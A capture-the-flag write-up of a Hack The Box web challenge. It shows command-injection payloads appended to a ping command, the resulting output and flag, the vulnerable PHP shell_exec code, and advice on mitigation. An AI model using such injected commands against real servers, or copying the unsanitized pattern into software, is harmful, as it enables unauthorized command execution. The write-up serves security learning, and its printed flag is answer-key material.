


# The Cursed Mission: AI Rampage — Injecting the Binary Beast

<details>
<summary><b>Table of Contents</b></summary>

- [The Cursed Mission: AI Rampage — Injecting the Binary Beast](#the-cursed-mission-ai-rampage--injecting-the-binary-beast)
  - [Legend](#legend)
  - [Walking an Application](#walking-an-application)
  - [Command Injection](#command-injection)
  - [Post-Exploitation Code Review](#post-exploitation-code-review)
  - [Mitigation](#mitigation)
  - [Lessons](#lessons)

</details>

## Legend

During Pandora's training, the Gunhead AI combat robot had been tampered with and was malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needed to take it down.

Upon receiving critical information about Gunhead's managing system, my fingers instinctively danced across the keyboard. Meanwhile, Pandora fought desperately to evade the relentless onslaught of the rogue AI. The urgency in the air mirrored the escalating chaos, pushing me to act quickly.

## Walking an Application

Just clicking around I found something that looks like a command panel. First, I decided to use it as intended and executed `/help`. The console responded with a list of commands at my disposal:

<p align="center">
  
</p>

## Command Injection

Having some experience with web applications, my hacker instincts told me that there was a command injection possibility somewhere nearby. So I used a basic payload:

```
/ping <IP>; id
```

And voila! The console returned the following output, confirming my guess:

```
PING 2.1.2.1 (2.1.2.1): 56 data bytes
uid=1000(www) gid=1000(www) groups=1000(www)
```

Now, it was time to guess the location of the flag within the filesystem:

```
/ping <IP>; cat /flag.txt
```

<p align="center">
  
</p>

```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

Success! Gunhead's rampage was halted, thanks to my quick thinking and hacking skills. I could almost sense Pandora's relieved sigh from a distance. Our Cursed Mission continued, and I couldn't shake the feeling that [the challenges ahead were only going to get more intense](https://github.com/samaellovecraft/ctf-write-ups/tree/main/HTB/Cyber%20Apocalypse/2023/Web/Drobots)!

## Post-Exploitation Code Review

The `ReconModel` class in the `ReconModel.php` file lacks input validation, making it susceptible to command injection:

```php
<?php
#[AllowDynamicProperties]

class ReconModel
{
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Unsanitized user input is passed directly into a shell command
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```

The `$this->ip` parameter is directly used in `shell_exec`, creating a potential security loophole, a loophole I effectively exploited in an earlier scenario.

## Mitigation

To mitigate this security risk, it's crucial to implement thorough validation and sanitization of user input before it's passed to the `shell_exec` function.

## Lessons

- The first step of web application penetration testing is to use the app _as intended_ and explore its features and functionality.
- Command injection is a _critical_ web security vulnerability that can allow an attacker to execute arbitrary commands on the server.
- Implementing robust _input validation and sanitization_ is essential to mitigate a wide variety of security vulnerabilities.
- Never trust machines, **especially if it runs Windows**!
